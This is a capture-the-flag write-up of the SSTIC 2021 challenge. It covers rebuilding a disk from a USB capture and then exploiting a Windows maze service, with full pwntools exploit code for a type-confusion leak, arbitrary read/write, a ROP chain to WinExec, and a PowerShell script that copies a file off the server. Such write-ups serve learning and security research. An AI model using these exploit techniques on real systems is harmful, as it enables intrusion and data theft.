

# Solving the SSTIC 2021 Challenge

Author: Robert Xiao (@nneonneo)

## Table of Contents

- [Introduction](#introduction)
- [Tools Used](#tools-used)
- [Stage 1](#stage-1)
- [Stage 2](#stage-2)
  - [Initial Reversing](#initial-reversing)
  - [Exploitation Plan](#exploitation-plan)
  - [Exploitation](#exploitation)
  - [Post-Exploitation](#post-exploitation)
  - [The DRM Solution](#the-drm-solution)
- [Stage 3](#stage-3)
  - [Analyzing the plugin traffic](#analyzing-the-plugin-traffic)
  - [Reversing the plugin](#reversing-the-plugin)
  - [Reversing the service binary](#reversing-the-service-binary)
  - [Intermission](#intermission)
  - [`guest.so`](#guestso)
  - [Tampering with the Cipher](#tampering-with-the-cipher)
  - [Acquiring More Media Keys](#acquiring-more-media-keys)
- [Stage 4](#stage-4)
  - [Reversing an Unknown Instruction Set](#reversing-an-unknown-instruction-set)
  - [Reversing the Password Checker (Part 1)](#reversing-the-password-checker-part-1)
  - [Reversing the Password Checker (Part 2)](#reversing-the-password-checker-part-2)
  - [Remote Code Execution on the Key Server](#remote-code-execution-on-the-key-server)
- [Stage 5](#stage-5)
  - [Reversing the Kernel Module](#reversing-the-kernel-module)
  - [Exploiting the Driver Bug](#exploiting-the-driver-bug)
  - [Exploiting Kernel Read/Write](#exploiting-kernel-readwrite)
- [Final Stage](#final-stage)
- [Solution Summary](#solution-summary)
- [Timeline](#timeline)
- [Conclusion](#conclusion)


## Introduction

This was my first time participating in the SSTIC challenge. I had great fun with it and learned quite a lot over the course of the challenge! Luckily, with the Easter long weekend, I was able to spend three full days on this, starting Friday April 2 around 11 pm local time, and finishing just under 75 hours later around 2 am on Tuesday April 6 (local time). Yes, I did sleep for a bit too ;) A brief timeline of my challenge experience (in my timezone, GMT-6); a complete timeline is given in the [Timeline](#timeline) section:

- Fri Apr 02, 11:17 pm: Start the challenge. By this point it's been open for about half a day.
- Sat Apr 03, 12:18 am (+1 hour): Submit stage 1 flag
- Sun Apr 04, 05:14 am (+29 hours): Submit stage 2 flag
- Sun Apr 04, 08:18 pm (+15 hours): Submit stage 3 flag
- Mon Apr 05, 02:40 am (+6.5 hours): Submit stage 4 flag
- Tue Apr 06, 01:36 am (+23 hours): Submit stage 5 flag
- Tue Apr 06, 01:44 am (+8 minutes): Send email to solve the challenge

The SSTIC challenge has been run annually since 2009 by the French "Symposium sur la sécurité des technologies de l'information et des communications" (SSTIC), and has historically been in French. Thankfully the organizers made it available in English this year, enabling me to compete - my French is terrible :).

This year's challenge was composed of five stages, covering reverse engineering (Windows x86-64, Linux x86-64, a custom obfuscated and randomized VM bytecode, and a custom SIMD-like architecture), binary exploitation (Windows, Linux kernel), cryptography (white-box AES) and finally some forensics (USB packet capture, video files).

The release of the challenge was accompanied by this announcement:

```
Due to the pandemic, the SSTIC conference will be held online for the second
time. One of the main consequences is that this year, again, no tickets will be
sold. Seeing that it is not possible to make money on the work of the French
infosec community anymore and looking to buy a new Mercedes car,
the Organizing Committee decided to take action! A new DRM solution has been
developed to protect the SSTIC presentations videos, which won't be free anymore.
As an infosec community member, you can't let that happen. You have to
analyze the DRM solution in order to find a way to extract the protected content
and share it freely with the world. (or give details to the Organizing
Committee for a nice bounty).
Luckily, the OC has been compromised and it has been possible to get a capture
made during data transfer to a USB stick. Hopefully, this may allow you to find
a copy of the DRM solution and to analyze it.
Good luck!
```

The goal of the challenge was to extract a specific video protected with the DRM solution, find an email of the form `xxx@challenge.sstic.org`, and send an email there. For each stage of the challenge, there was also a corresponding flag of the form `SSTIC{xxx}` which could _optionally_ be submitted to the website as a way to publicize your progress; however, only the final email was actually necessary for the final ranking.

## Tools Used

Here, I list all of the tools that I used throughout the challenge.

- Computer: 2019 MacBook Pro, macOS 10.14
- Text editor: BBEdit
- VMWare Fusion 11, with the following virtual machines:
    - Windows 10 Pro
        - Windbg
        - AppJailLauncher
    - Ubuntu 18.04
        - gdb
        - gcc
    - Ubuntu 20.04 with GUI
        - VLC Media Player
- Wireshark
- IDA Pro 7.5
- Python 3.8
    - pwntools
    - numpy
    - PyCrypto
- [vmlinux-to-elf](https://github.com/marin-m/vmlinux-to-elf)

## Stage 1

The initial announcement of the challenge included a 10.6 MiB file, `usb_capture_CO.pcapng`, representing a USB packet capture made while some data was transferred onto a USB stick.

We're told that this represents data transfer to a USB stick. Indeed, if we look at the `GET DESCRIPTOR` messages going to USB address 4.28.0, we can see that device 4.28 is a Kingston Technology DataTraveler 100, a very typical USB flash drive. Most of the packet capture consists of USBMS (USB Mass Storage) packets to and from this flash drive. USB Mass Storage is a standard for accessing external disks over USB; it provides access to block data storage over (most typically) the SCSI protocol, wrapped into USB packets as the USBMS protocol.


We focus on the SCSI commands and responses by applying the `scsi` display filter. There are a few initial setup commands exchanged, which seem normal; in particular, the response to the `Read Capacity` command indicates that the device has 60,437,491 blocks of 512 bytes each, which is around 28.8 GiB. After these, there are several hundred requests to `Read` and `Write` specific blocks (identified by their logical block address (LBA) which is simply a linear index into the 512-byte blocks). There's essentially nothing else in the USB packet capture.

So, the goal must be to reconstruct the contents of the disk from the data that is transferred. Every time a block is read (or written) we obtain its LBA and contents. My usual trick for extracting data from packet captures is to use `tshark` to dump the relevant packets and fields to a file in a nice, easy to parse format. Usually, I use `-T fields` to get nice tab-separated data, but in this case I could not figure out the right field name to extract the raw read/written block data (with most Internet protocols, it's something like `data.data`, for example).

Instead, I just made a big dump of the packet capture in JSON format, using the following command (see attachment [`stage1/tshark-extract.sh`](files/stage1/tshark-extract.sh)):

```bash
tshark -T json -x -Y usbms -r usb_capture_CO.pcapng > usbms.json
```

This dumps out all the `usbms` packets with their raw data in every layer that Wireshark understands. The resulting file is rather large (about 70 MiB), but it's very easy to parse and work with. I then turned to wrangling the file in Python.

Basically, I parsed out all of the SCSI reads and writes, and wrote a corresponding disk image with their contents. I also generated some "intermediate" disk images corresponding to the state of the disk prior to certain writes, in case the writes overwrote some crucial information, but they did not turn out to be necessary. This is best performed with a filesystem having sparse file support, or else you'll end up with multiple 28 GiB files! Here's the code (also in attachment [`stage1/build-imgs.py`](files/stage1/build-imgs.py)):

```python
import json

usbms = json.load(open('usbms.json'))
frames = {int(frame["_source"]["layers"]["frame"]["frame.number"]):frame for frame in usbms}

f1 = open('scsi/out0-905.img', 'wb')
f2 = open('scsi/out0-1307.img', 'wb')
f3 = open('scsi/out-all.img', 'wb')

for framenr in sorted(frames):
    frame = frames[framenr]
    if "scsi_raw" in frame["_source"]["layers"] and "scsi_sbc.opcode_raw" not in frame["_source"]["layers"]["scsi"]:
        reqframe = frames[int(frame["_source"]["layers"]["scsi"]["scsi.request_frame"])]
        opcode = int(frame["_source"]["layers"]["scsi"]["scsi_sbc.opcode"])
        if opcode not in (40, 42):
            continue

        lba = int(reqframe["_source"]["layers"]["scsi"]["scsi_sbc.rdwr10.lba"])
        reqlen = int(reqframe["_source"]["layers"]["scsi"]["scsi_sbc.rdwr10.xferlen"])
        data = bytes.fromhex(frame["_source"]["layers"]["scsi_raw"][0])
        print(framenr, opcode, lba, reqlen, data[:512].hex())

        if framenr <= 905:
            f1.seek(lba * 512)
            f1.write(data)
        if framenr <= 1307:
            f2.seek(lba * 512)
            f2.write(data)
        f3.seek(lba * 512)
        f3.write(data)
```

This produces three filesystem images, which can be mounted with the macOS Disk Utility. The first contains no interesting files; the second contains just two files (`challenge.7z.001`, `challenge.7z.007`), and the last contains eight files (`challenge.7z.001` through `challenge.7z.008`).


Decompressing the 8 files as a single `.7z` volume yields a directory called `chall`, containing, among other things, a `flag.jpg` indicating that we have cleared stage 1.


Flag for Stage 1: `SSTIC{c426baf3470c7ffbea05a5320d1d2b74}`

## Stage 2

The full contents of the `challenge.7z.00x` archive are as follows (attached in the directory [`stage2/chall`](files/stage2/chall)):

- `A..Mazing.exe`, a Windows 64-bit executable
- `flag.jpg`, which contains the stage 1 flag shown previously
- `Readme.md`
- `env.txt`

`Readme.md` contains the following text:

```
Hey Trou, 

Do you remember the discussion we had last year at the secret SSTIC party? We planned to create the next SSTIC challenge to prove that we are still skilled enough to be trusted by the community.  

I attached the alpha version of my amazing challenge based on maze solving.

You can play with it in order to hunt some remaining bugs. It's hosted on my workstation at home, you can reach it at challenge2021.sstic.org:4577.

I've written in the env.txt file all the information about the remote configuration if needed.

Have Fun, 
```

`env.txt` contains the following text:

```
OS Name : Microsoft windows 10 Pro
Version : 20H2 => 10.0.19042 Build 19042 
Seems facultative but updated until 22/03/2021 : Last installed KBs: Quality Updates : KB500802, KB 46031319, KB4023057 / Other Updates : KB5001649, KB4589212
Network : No outbound connections
Process limits per jail: 2
Memory Allocation limit per jail : 100Mb 
Time Limit : 2 min cpu user time
```

Running `A..Mazing.exe` (via AppJailLauncher for confinement) shows the following menu:

```
Menu

1. Register
2. Create maze
3. Load maze
4. Play maze
5. Remove maze
6. View scoreboard
7. Upgrade
8. Exit
```

### Initial Reversing

The next step is to import `A..Mazing.exe` into IDA Pro for analysis and decompilation. The program does not appear obfuscated (although it is stripped), and appears to be linked with the normal VCRUNTIME140 dll, which means that IDA automatically identifies the `main` function at address 0x1400054E0, as well as some other library functions via FLIRT. You may find the full decompilation of the program in the attached files [`stage2/A..Mazing.exe.h`](files/stage2/A..Mazing.exe.h) (reconstructed type definitions) and [`stage2/A..Mazing.exe.c`](files/stage2/A..Mazing.exe.c) (decompiled code with reconstructed function/variable types, names, etc.)

The structure of the `main` function is very plain. After disabling I/O buffering with `setvbuf`, configuring an `alarm`-like timer (a thread that kills the process after 500 seconds), and calling `srand(time(NULL))`, `main` simply enters a loop where it prints the menu, reads an integer, and then dispatches to the appropriate handler function via `switch`. Based on running the program and following along with the decompilation output, we can deduce the following functions for the various menu items:

1. Register: Allows you to input a name up to 128 bytes long. Initially, I thought this was using the insecure `scanf("%s", name)`, but it is actually using `scanf_s("%s", name, 128)`, which is a Microsoft-specific "safe" scanf, so there's no bug there. Registration is necessary to use most other functions, but you can re-register any time.
2. Create maze: Frees any existing maze, then interactively creates a new maze (as long as there are less than 32 mazes saved). The maze can be one of three types: "Classic", "Multipass" or "Multipass with traps". Mazes can either be randomly generated or custom; in the latter case, the user can choose the maze dimensions and some other details about the maze. Multipass mazes involve removing some of the walls at random, while trap mazes involve "traps" which are placed throughout the maze. At the end, the maze is printed out, and the user is given the option to save the maze to a `.maze` file on the filesystem. Additionally, an empty `.rank` file is also generated.
3. Load maze: Frees any existing maze, then prompts the user to load a maze off of the filesystem - by choosing a number from a menu or entering the filename (with or without the `.maze` file extension).
4. Play maze: Allows the user to play through a maze using z,q,s,d keys. The user starts in the top-left, and needs to walk to the opening on the bottom-right. The user gains one point per move and an arbitrary number of points per trap (depending on the trap settings). If the user wins, they get added to the scoreboard (lower scores first) and saved to the maze's `.rank` file.
5. Remove maze: Loads a maze if there's no current maze in memory, then frees the current maze and deletes its files (`.maze` and `.rank`).
6. View scoreboard: Shows the scoreboard for the current maze (the contents of the `.rank` file).
7. Upgrade: Lets you change the type of the current maze (classic -> multipass, multipass -> multipass with traps). Upgrading a "multipass with traps" maze instead allows you to rewrite the maze completely.
8. Exit: Returns from `main`, exiting the program.

There is a bug in the load maze function: you can specify a filename by either the index (e.g. 1), by the filename without the `.maze` suffix, e.g. `MyMaze`, or by the filename with the `.maze` suffix, e.g. `MyMaze.maze`. However, the logic incorrectly accepts the file `MyMaze.rank` as if it were a maze file. This bug, along with a lack of validation in the maze loader (described later), can be exploited to fully break the program through confusion of the `.rank` and `.maze` file formats.

### Exploitation Plan

To understand how confusing a `.rank` file for a maze could lead to an exploit, it's necessary to understand both file formats. I characterized these by decompiling the relevant load/save code, as well as looking at the on-disk files corresponding to known mazes and rank data. In C pseudocode, this is what the files look like (all file structures are packed with no padding between elements):

```c
struct maze_file {
    uint8_t creator_name_length;
    char creator_name[creator_name_length];
    uint8_t maze_type;
    uint8_t width;
    uint8_t height;
    char maze[height][width];
    if(maze_type >= 3) {
        /* multipass with traps = 3 */
        uint8_t num_traps;
        struct trap {
            uint64_t score;
            uint16_t position; /* y * width + x */
            uint8_t character; /* character that trap is displayed as */
        } traps[num_traps];
    }
};

struct rank_file {
    uint8_t num_ranks;
    struct rank {
        uint8_t name_length;
        char name[name_length];
        uint64_t score;
    } ranks[num_ranks];
};
```

When a `.rank` is loaded as a `.maze`, the number of ranks will be interpreted as the length of `creator_name`. This has two implications:

1. We may be able to bypass the 128-byte limit on the creator name to achieve an overflow. In fact, in a correctly generated `.maze`, `creator_name_length` is never more than 127 because it does not count the final null terminator. No null terminator is saved to the file, nor added during loading; the use of `calloc` for allocating the in-memory maze structure means that the final byte will already be null. However, the "play maze" function allows up to 128 names to be added to the scoreboard, which means we can create a `.rank` file with `num_ranks = 128`; when loading this file as a `.maze`, we will end up with a 128-byte creator name with no room for a null terminator.
2. We can manipulate the first name in the rank list to overlap the other fields of the maze file (`maze_type`, `width`, `height`) in order to control the properties of the maze. In particular, the maze type code is expected to be 1 (classic), 2 (multipass) or 3 (multipass with traps), but the loader code does not check that the type is actually one of these three options. The result is that we can carry out a *type confusion* attack by using an invalid type.

To see how these facts can be used, let's look at the in-memory maze data structure, which is a large structure 0x540E bytes in size. I reconstructed this structure with the help of IDA's "Local Types" feature, filling in details as I reverse-engineered the binary. One peculiarity of the structure is that it is packed - that is, there is no padding in the structure, and certain fields are not aligned with respect to their usual alignment needs (e.g. pointers are not 8-byte aligned).

```c
struct maze {
    uint8_t width;
    uint8_t height;
    uint8_t type;
    char maze_name[128];
    char creator_name[128];
    union {
        struct {
            char *maze;
        } classic;
        struct {
            uint8_t num_traps;
            struct {
                uint64_t score;
                uint16_t position;
                uint8_t character;
                int32_t is_hit;
            } traps[256];
            char *maze;
            uint8_t wall_percent_to_remove;
        } multipass;
    } maze_data;
    struct {
        uint8_t num_ranks;
        struct {
            uint64_t score;
            char name[128];
        } ranks[128];
    } rank_data;
};
```

In the classic maze type, the pointer which points to the allocated maze data (of size `width * height`) is immediately after the `creator_name` in memory. Therefore, if we load a 128-byte creator name without a null terminator, we can leak the pointer by viewing the maze's creator name - this enables us to leak a heap address.

We can also see that the data for the different maze types is stored in a `union`, so their data overlaps. Most of the maze code does not check for an invalid type code, and different functions treat invalid type codes differently. For example, for the invalid type code 4, we have the following properties:

- During "load maze", type code 4 is treated as a multipass maze, so `maze_data.multipass.maze` will be set to the pointer to the allocated maze data.
- During "load maze", type code 4 is treated as having traps, so traps will be loaded from the file.
- During "play maze", when the maze is printed out, type code 4 is treated as being a *classic* maze: `maze_data.classic.maze` will be used as the base pointer to print out the maze data.
- During "play maze", movement will always fail (one of the few places where the type is actually fully validated!)
- During "upgrade maze", type code 4 is treated as being a classic maze, and so it can be upgraded to a multipass maze. This copies the pointer from `maze_data.classic.maze` to `maze_data.multipass.maze`. Then, after upgrading it to a multipass-with-traps maze, it is possible to fully rewrite the contents of the maze data (up to `width * height`).

Due to the confusion between using `maze_data.classic.maze` and `maze_data.multipass.maze`, we have an exploitation plan. Note that `maze_data.multipass.num_traps` and the `maze_data.multipass.traps[0].score` overlap the `maze_data.classic.maze` pointer.

1. Leak a heap address using a 128-byte creator name (by loading a rank file with 128 ranks in it).
2. Construct a "type 4" maze using a crafted `.rank` file. When loaded, the allocated maze data is placed in `maze_data.multipass.maze`, and traps will be loaded. We can therefore manipulate `num_traps` and `traps[0].score` to create a chosen pointer when viewed as `maze_data.classic.maze`.
3. Leak the contents at that pointer by using "play maze" to print out the maze (this prints out the maze using `maze_data.classic.maze`).
4. Upgrade the maze to cause `maze_data.classic.maze` to be copied to `maze_data.multipass.maze`.
5. Upgrade the maze again to write at the arbitrary address that we put into `maze_data.classic.maze` initally.

This is a very powerful set of exploit primitives: we get read-what-where *and* write-what-where, plus we get a heap address leak to get us started (breaking ASLR).

### Exploitation

Now we come to the hard part - actually writing the exploit. I'm no expert at Windows exploitation, so this was quite hard for me, and I learned a lot!

First steps first: let's get the heap address leak. We will need to win a maze 128 times to insert 128 ranks into the `.rank` file; when loaded as a maze file, this will be interpreted as a 128-byte "creator name" with no null terminator. To simplify winning, we can define a tiny 3x3 classic maze; mazes of this size have no room for internal walls, so they look like this:

```
###
#xo
###
```

and therefore can be won by simply moving right one space.

We set our username (the one that will appear in the `.rank` file to simply 127 "A" characters (the maximum possible). Because our score will be 0, the resulting maze's type will be 0, and the maze's dimensions will be 0 x 0. Luckily, these values are not problems because: the maze loader doesn't check the values for sanity, the maze is treated as a classic maze during loading so the `maze` pointer still goes right after the creator name, and allocating 0 bytes for the `maze` pointer still goes in the heap like any other allocation.

For a bit more speed, I also simply send all of the commands all at once without waiting for server responses, which reduces the latency. The setup script, using pwntools, ends up looking like this ([`stage2/makeleak.py`](files/stage2/makeleak.py) in the attachments):

```python
from pwn import *

local = False
if local:
    s = remote('172.16.113.128', 4444)
else:
    # create a new sandbox and save the UID for later scripts
    s = remote('challenge2021.sstic.org', 4577)
    s.sendline()
    s.recvuntil('Your UID is ')
    uid = s.recvuntil(' and ', drop=True)
    with open('uid.txt', 'wb') as outf:
        outf.write(uid)
    log.info("UID: %s", uid.decode())


_menucount = 1
def menu(n):
    global _menucount
    _menucount += 1
    s.sendline(str(n))

def menusync():
    global _menucount
    for i in range(_menucount):
        s.recvuntil('8. Exit\r\n')
    _menucount = 0

def register(name):
    menu(1)
    s.sendline(name)

def load(x):
    menu(3)
    s.sendline(str(x))

def remove(x):
    menu(5)
    s.sendline(str(x))

def scoreboard():
    menusync()
    menu(6)
    return s.recvuntil('\r\nMenu\r\n\r\n', drop=True)

# maze type 0, w=h=0 (from score)
register(b'A' * 0x7f)

menu(2) # create
s.sendline('1') # classic
s.sendline('c') # custom
s.sendline('3') # w = h = 3
s.sendline('3')
s.sendline('y') # save
s.sendline('leak') # save

# insert our name into the scoreboard
# rank file: [num_ranks=80] [name_length=7f] [name=414141...41] [score=0000000000000000] ...
# will be interpreted as the maze [creator_name_length=80] [creator_name=7f41414141...41] [maze_type=00] [width=00] [height=00]
for i in range(0x80):
    if i % 0x20 == 0:
        menusync()
    menu(4) # play
    # move right once
    s.sendline('d')

s.interactive()
```

On the actual challenge server, each connection can either create a new sandbox (which lasts for 10 minutes), obtaining a sandbox UID, or enter an existing UID to use the files from an existing sandbox. So, this setup script simply saves the appropriate `.maze`/`.rank` files and the UID for subsequent exploits to use. To actually leak the heap address, it suffices to load the `leak.rank` file as a maze and observe the scoreboard, which prints out the creator name and a heap address.

```python
register('A')
load('leak.rank')
leak = scoreboard()
leak = leak.split(b'created by ', 1)[1]
heapaddr = u64(leak[0x80:0x86] + b'\0\0')
log.info("leaked heap address: 0x%x", heapaddr)
```

The next step is to start leaking memory at arbitrary addresses. We can achieve this by constructing and loading a "type 4" maze file. A few tricky points:

- The rank name is the only practical place to put the address, since the score cannot be much larger than 2^32 (trap scores are limited to `int` by default)
- The name is read using `%s` so addresses with whitespace characters in them won't work (not a big limitation - if we hit this, we just reconnect to let ASLR give us different addresses)
- The LSB of the address is the number of traps, so if we want to construct an address with a high LSB, we need a lot of traps - which means the `.rank` file must be big enough or the loader will fail

Luckily, these aren't terribly difficult to address. I over-engineered my code a bit to allow (almost) arbitrary addresses to be used (by adjusting the LSB to avoid whitespace or null characters):

```python
def is_ok_addr(addr):
    saddr = p64(addr).rstrip(b'\0')
    for c in saddr:
        if c == 0 or bytes([c]).isspace():
            return False
    return True

def make_fake_maze(addr):
    saddr = p64(addr).rstrip(b'\0')
    assert is_ok_addr(addr), "address 0x%x cannot be used" % addr

    lsb = saddr[0]
    iters = ((lsb - 1) * 11 + 135) // 136
    width = 127 - (iters + 3 + len(saddr))
    name = bytearray()
    name += b'A' * iters
    name += b'\4' # type
    name += bytes([width, 1]) # width, height
    name += b'B' * width # grid data
    name += saddr # num traps + trap[0].score
    assert len(name) == 127

    register(bytes(name))

    # Note: maze name must not start with a number!
    mazename = 'X' + os.urandom(8).hex()
    menu(2) # create
    s.sendline('1') # classic
    s.sendline('c') # custom
    s.sendline('3') # w = h = 5
    s.sendline('3')
    s.sendline('y') # save
    s.sendline(mazename) # save
    for i in range(iters + 1):
        menu(4) # play
        # <q >d ^z vs
        s.sendline('d')

    load(mazename + '.rank')
    return width

def do_leak(addr):
    lsb = addr & 0xff
    if not is_ok_addr(addr >> 8) or (lsb == 0 and not is_ok_addr((addr >> 8) - 1)):
        # cannot leak this address (non-LSB bytes are whitespace or NUL)
        return b'\xcc'

    # correct for NUL or whitespace LSB
    if lsb == 0 or lsb == 32:
        offset = 1
    elif lsb in (9, 10, 11, 12, 13):
        offset = lsb - 8
    else:
        offset = 0

    addr -= offset
    log.info("Leaking address 0x%x (offset %d)", addr, offset)
    width = make_fake_maze(addr)
    menusync()
    menu(4) # play
    leak = s.recvuntil(b'\r\n-*-*-*-*-*-*-*', drop=True)

    s.sendline('x') # quit playing
    menu(5) # remove
    s.sendline('y') # confirm remove

    if len(leak) != width and b'\r\n' in leak:
        log.info("Correcting for CRLF")
        leak = leak.replace(b'\r\n', b'\n')
    assert len(leak) == width
    return leak[offset:]

def do_leak_range(addr, sz):
    limit = addr + sz
    buf = bytearray()
    while addr < limit:
        leak = do_leak(addr)
        log.info("  Leaked %s", leak.hex())
        buf += leak
        addr += len(leak)
    return buf[:sz]
```

By calling `do_leak_range`, which repeatedly loading mazes with different addresses, it becomes possible to leak a large amount of heap memory and look for pointers to other blocks of memory. By using `dps <heapaddr> L100` in WinDBG, I identified probable pointers in the heap on my machine, and searched for similar pointers in the leak on the remote machine. One of the leaked pointers is a pointer from NTDLL. On Windows, DLL base addresses are only randomized once per boot, so the leaked pointer address is stable across multiple connections to the service, and so I simply hardcoded it in my exploit.


At this point, I considered overwriting a function pointer somewhere (e.g. in the binary or in NTDLL) to gain code execution, but I noticed that Control Flow Guard (CFG) seemed to be on. Since I was not familiar with CFG beyond knowing that it might be difficult to bypass, I chose instead to go with return oriented programming (ROP), for which I'd need the address of the stack. With an NTDLL pointer in hand, I was able to leak out pointers to KERNEL32 and KERNELBASE, which have lots of useful functions, as well as pointer to the Process Environment Block (PEB). The PEB occupies one page in memory, and subsequent pages hold the Thread Environment Blocks (TEB) for each thread, as `!address` in WinDBG shows:

```
    e1`f8105000       e1`f8106000        0`00001000 MEM_PRIVATE MEM_COMMIT  PAGE_READWRITE                     PEB        [13bc]
    e1`f8106000       e1`f8108000        0`00002000 MEM_PRIVATE MEM_COMMIT  PAGE_READWRITE                     TEB        [~0; 13bc.8b0]
    e1`f8108000       e1`f810a000        0`00002000 MEM_PRIVATE MEM_COMMIT  PAGE_READWRITE                     TEB        [~1; 13bc.177c]
    e1`f810a000       e1`f810c000        0`00002000 MEM_PRIVATE MEM_COMMIT  PAGE_READWRITE                     TEB        [~2; 13bc.f64]
    e1`f810c000       e1`f810e000        0`00002000 MEM_PRIVATE MEM_COMMIT  PAGE_READWRITE                     TEB        [~3; 13bc.2120]
    e1`f810e000       e1`f8110000        0`00002000 MEM_PRIVATE MEM_COMMIT  PAGE_READWRITE                     TEB        [~4; 13bc.18a0]
    e1`f8110000       e1`f8112000        0`00002000 MEM_PRIVATE MEM_COMMIT  PAGE_READWRITE                     TEB        [~5; 13bc.1128]
```

The TEBs hold pointers to the top and bottom of the stack. Then, I can read the stack to determine exactly where `main`'s return address is:

```python
# heap_leak = do_leak_range(heapaddr, 0x400) # used for leaking ntdll
ntdll_leak = do_leak_range(ntdll + 0x16a400, 0x100)
ntdll_leak2 = do_leak_range(ntdll + 0x16b178, 0x100)

kernel32 = u64(ntdll_leak2[:8]) - 0x428f0
log.info("kernel32: 0x%x", kernel32)
kernelbase = u64(ntdll_leak2[16:24]) - 0x74a50
log.info("kernelbase: 0x%x", kernelbase)

exe_base = u64(ntdll_leak[8:16]) - 0xf8
log.info("exe base: 0x%x", exe_base)
peb_addr = u64(ntdll_leak[0x48:0x50]) - 0x80
log.info("peb: 0x%x", peb_addr)
# TEBs follow PEB in memory
teb0_addr = peb_addr + 0x1000

teb = do_leak_range(teb0_addr, 0x100)
stack_top, stack_bottom = u64(teb[8:16]), u64(teb[16:24])
log.info("stack range: [0x%x, 0x%x]", stack_bottom, stack_top)

# search for main() return address
stack_leak = do_leak_range(stack_top - 0x800, 0x600)
for i in range(0, len(stack_leak), 8):
    if u64(stack_leak[i:i+8]) == exe_base + 0x5e58:
        rip_addr = stack_top - 0x800 + i
        break
log.info("rip is at 0x%x", rip_addr)
```

Finally, with the overwrite enabled by the type confusion on the "upgrade" function, I can simply write a ROP payload directly to the stack. I chose to use ROP to execute `WinExec`, which is a KERNEL32 function that simply launches the program in the first argument. NTDLL, being a very large binary, provides a wealth of ROP gadgets, including `pop rdx` and `pop rcx` to set the arguments for WinExec.

One confusing point, which took quite some time to track down, is that WinExec writes to the memory *above* the stack pointer. This is apparently normal practice in the Microsoft x86-64 calling convention (callers should allocate 32 bytes on the stack for the callee's use), but being accustomed to Linux exploitation, I was unfamiliar with it:

```
0000000180065f80 <WinExec>:
   180065f80:   mov    rax,rsp
   180065f83:   mov    QWORD PTR [rax+0x10],rbx
   180065f87:   mov    QWORD PTR [rax+0x18],rsi
   180065f8b:   mov    QWORD PTR [rax+0x20],rdi
```

I had been storing the string to execute in that space, which was causing it to get partially overwritten. My solution was simply to ensure my command was less than 16 bytes.

```python
width = make_fake_maze(rip_addr)
menu(7)
s.sendline('y')
s.sendline('0') # walls to remove
s.sendline('y') # multipass with traps
s.sendline('0') # number of traps
s.sendline('12345') # score for traps
s.sendline('n') # do not save

menu(7)
s.sendline('y') # update trap positions
rop = flat([
    ntdll + 0x8c557, # pop rdx; pop r11; ret
    1,
    0,
    ntdll + 0x8fe91, # pop rcx; ret
    rip_addr + 0x30,
    kernel32 + 0x65f80, # WinExec
]) + command
log.info("ropchain: %d of %d allowable bytes", len(rop), width)
s.sendline(rop)
s.sendline()
```

By exiting (menu option 8), `main` will return to the first address in the ROP payload, which kicks off the ROP chain and results in the command being executed via `WinExec`.

### Post-Exploitation

So, now I can run an arbitrary command on the server. First, I tried `cmd.exe`. This surprisingly worked, and gave me a shell - but it was barely usable due to the two process limit and hard memory limit (100Mb, as specified in the `env.txt`). But, luckily, the server is running a recent build of Windows 10 which has PowerShell built-in.

Using PowerShell, we can explore the filesystem. We can see that we start in a subdirectory of `C:\users\challenge\maze`. Most of `C:\users\challenge` is not viewable ("access denied"), except the Desktop, which has the file `DRM.zip` - we have to exfiltrate it! It's 13 MiB, though, so simply trying to use `certutil` or a naive Base64 conversion will run out of memory, and other attempts like `Format-Hex` turned out to be far too slow. Instead, we abuse the scripting power of PowerShell to insert a quick iterative Base64 script adapted [from the Internet](https://mnaoumov.wordpress.com/2013/08/20/efficient-base64-conversion-in-powershell/):

```powershell
function ConvertTo-Base64
{
    $SourceFilePath = "C:\\users\\challenge\\Desktop\\DRM.zip"
    $bufferSize = 9000
    $buffer = New-Object byte[] $bufferSize
    $reader = [System.IO.File]::OpenRead($SourceFilePath)
    $bytesRead = 0
    do
    {
        $bytesRead = $reader.Read($buffer, 0, $bufferSize);
        [Convert]::ToBase64String($buffer, 0, $bytesRead);
    } while ($bytesRead -eq $bufferSize);

    $reader.Dispose()
}
ConvertTo-Base64
```

You can see the complete exploit script, which performs all of the above steps, in [`stage2/exploit.py`](files/stage2/exploit.py) - run [`stage2/makeleak.py`](files/stage2/makeleak.py) first to set up the leaky maze file and the UID.

### The DRM Solution

The full contents of the `DRM.zip` archive are as follows (attached in the directory [`DRM`](files/DRM)):

- [`DRM_server.tar.gz`](files/DRM/DRM_server.tar.gz), which contains in turn
    - `bzImage`, a compressed Linux kernel
    - `rootfs.img`, a compressed image for a Linux root filesystem, which can be unpacked with `cpio -iz < rootfs.img` to yield
        - `/lib/modules/sstic.ko`, a Linux kernel module
        - `/home/sstic/service`, a Linux `x86_64` binary
        - `/bin/busybox` plus a lot of symlinks to `busybox` in `/bin`
        - `/etc/group`, `/etc/passwd`, which show the existence of two users: `root` and `sstic`
        - `/etc/hosts`, which just has the usual `localhost` entry
        - `/init`, the shell script run at system startup
    - `run_qemu.sh`, a shell script which runs `qemu-system-x86_64` with the kernel and rootfs
- [`libchall_plugin.so`](files/DRM/libchall_plugin.so), a Linux `x86_64` shared object
- [`Readme`](files/DRM/Readme)

The Readme contains the following:

```
Here is a prototype of the DRM solution we plan to use for SSTIC 2021. 
It's 100% secure, because keys are stored on a device specifically designed
